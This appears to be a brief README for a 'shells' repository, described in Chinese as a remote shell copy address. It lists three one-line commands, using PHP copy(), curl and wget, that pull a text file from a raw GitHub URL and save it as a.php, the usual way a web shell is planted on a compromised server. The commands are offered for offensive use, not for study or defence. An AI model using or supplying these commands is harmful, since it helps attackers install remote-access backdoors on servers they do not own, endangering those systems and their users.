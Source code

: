 # shells
> 用于作为远程shell copy地址
* php
** copy("https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt",a.php);
* curl
curl https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -o a.php
* wget
wget https://raw.githubusercontent.com/LTLTLXEY/shells/main/a.txt -O a.php
